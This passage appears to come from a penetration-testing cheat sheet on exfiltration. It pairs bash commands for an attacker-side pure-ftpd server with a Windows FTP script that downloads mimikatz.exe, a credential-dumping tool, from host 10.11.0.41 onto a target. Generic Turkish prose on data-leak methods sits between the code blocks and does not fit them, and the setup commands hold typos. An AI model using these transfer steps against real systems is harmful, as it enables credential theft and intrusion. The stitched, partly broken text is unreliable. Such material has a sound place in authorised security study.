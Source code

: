 ```bash
#Run the following script to configure the FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
### **Windows** istemcisi

Windows işletim sistemine sahip bir istemci, çeşitli yöntemlerle veri sızdırma saldırılarına maruz kalabilir. Aşağıda, bu tür saldırıları gerçekleştirmek için kullanılabilecek bazı yöntemler bulunmaktadır:

#### 1. **USB Bellek**

USB bellekler, hedef sisteme zararlı yazılımı bulaştırmak veya verileri çalmak için kullanılabilir. Bu yöntem, hedef sisteme fiziksel erişim gerektirir.

#### 2. **E-posta**

Hedef sisteme zararlı bir e-posta göndermek, veri sızdırma saldırılarının yaygın bir yöntemidir. Bu saldırı türü, kullanıcının e-posta ekini açması veya kötü niyetli bir bağlantıya tıklaması durumunda gerçekleşir.

#### 3. **Ağ Trafikleri**

Hedef sistemin ağ trafiği, saldırganın verileri çalmak için kullanabileceği bir başka kaynaktır. Bu yöntem, ağ üzerindeki verilerin izlenmesini ve yakalanmasını içerir.

#### 4. **Gizli Dosyalar**

Hedef sisteme zararlı bir yazılım yerleştirmek için gizli dosyalar kullanılabilir. Bu dosyalar, kullanıcının fark etmeyeceği şekilde gizlenir ve verilerin çalınmasına olanak sağlar.

#### 5. **Güvenlik Açıkları**

Hedef sistemin güvenlik açıklarını kullanarak veri sızdırma saldırıları gerçekleştirilebilir. Bu yöntem, hedef sisteme erişim sağlamak ve verileri çalmak için kullanılan zayıf noktaları hedefler.

Bu yöntemler, Windows istemcilerine yönelik veri sızdırma saldırılarının sadece birkaç örneğidir. Saldırganlar, sürekli olarak yeni yöntemler geliştirerek ve güvenlik açıklarını kullanarak veri sızdırma saldırıları gerçekleştirmeye çalışmaktadır. Bu nedenle, kullanıcıların güvenlik önlemlerini güncel tutmaları ve bilinçli bir şekilde hareket etmeleri önemlidir.
```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```
